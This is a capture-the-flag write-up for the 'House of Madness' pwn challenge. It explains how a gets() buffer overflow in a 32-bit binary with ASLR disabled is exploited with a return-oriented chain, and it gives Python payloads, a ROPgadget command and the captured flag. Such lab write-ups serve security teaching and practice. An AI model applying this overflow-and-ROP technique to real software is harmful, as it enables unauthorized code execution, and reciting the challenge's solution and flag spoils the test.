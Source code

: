 # House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download](./challenge)

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter 'Stephen' in room 4.

![](./img/programRun.png)

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering 'Stephen' that includes an unsanitized gets that would overflow 'local_1c'

![](./img/room4.png)

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![](./img/tryAgain.png)

\>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: 'get_key1', 'get_key2','AAsDrwEk','set_key4'
While reversing the functions, it is important to note that 'get_key2' will not initialize 'key 2' if 'key 1' is already initialized. In addition we see that 'get_key1' takes an argument and compares it to 0xfeedc0de.
The obscure function 'AAsDrwEk' sets 'key 3' without any preconditions. Finally, 'set_key4' initializes 'key4' once the previous keys have been set. 
Ok, cool. Game plan is:

![](./img/gameplan.png)

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![](./img/take1.png)

\>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![](./img/feedcode.png)

![](./img/gdb.png)

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have 'get_key1' to ret into 'get_flag' which is at 'esp + 0x4' on the stack, I need to somehow increment esp. Something to simply move 'get_flag' to the top of the stack...
Oh yeah! A ROP gadget to pop off '0xfeedcode' off the stack and then ret into 'get_flag'!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single 'pop ebx; ret' instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![](./img/ineedsleep.png)

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
